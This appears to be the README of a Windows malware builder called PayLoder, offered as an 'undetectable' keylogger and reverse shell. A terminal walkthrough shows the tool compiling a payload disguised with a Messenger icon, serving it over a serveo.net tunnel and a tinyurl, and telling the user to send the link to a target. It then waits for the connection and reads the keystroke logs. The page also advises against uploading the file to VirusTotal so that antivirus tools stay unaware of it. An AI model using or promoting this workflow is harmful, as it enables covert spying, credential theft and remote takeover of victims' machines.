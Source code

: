 # PayLoder
     make a payload 
https://https://github.com/indrajitkar/PayLoder

### Don't copy this code without give me the credits, nerd! FUD Win32 Keylogger and Reverse Shell (cmd.exe) ### Features: ### Port Forwarding using Serveo ### Fully Undetectable (Please, dont upload to totalvirus!) ### Custom icon (Default: WhatsApp, Messenger) ## Legal disclaimer: Usage of SpyKey for attacking targets without prior mutual consent is illegal. It's the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program.

root@kali:~/test$ cd PayLoder                                                                                                                           root@kali:~/test/PayLoder$ sudo bash PayLoder.sh                                                                              .Lucifar.
                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       Author: indrajit              
                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                          You don't become a coder by just changing the credits    
                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        [+] Choose a Port (Default: 2504 ): 1337  
                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                               [+] Payload name (Default: payload ): messenger                                                                                                                                                                                                                                                                                                 [+] Log file name (Default: log ): test1                                                                                                                                                                                                                                                                                                        1: icon/messenger.ico                                                                                                                                                   2: icon/settings.ico                                                                                                                                                    3: icon/whatsapp.ico                                                                                                                                                    99: Choose a path                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       [*] Choose an ICON (Default: 1 ): 1                                                                                                                                     [*] Compiling...                                                                                                                                                        [*] Saved: messenger.exe                                                                                                                                                [!] Please, don't upload to virustotal.com !                                                                                                                            [*] Starting server...    W                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              [*] Send the direct link to target: https://sollers.serveo.net/messenger.exe                                                                                                                                                                                                                                                                    [*] Or using tinyurl: http://tinyurl.com/yb2yoxcp                                                                                                                                                                                                                                                                                                                                                                                                                                                                       [*] Waiting connection...                                                                                                                                               [*] Get log from keylogger run: type test1  target
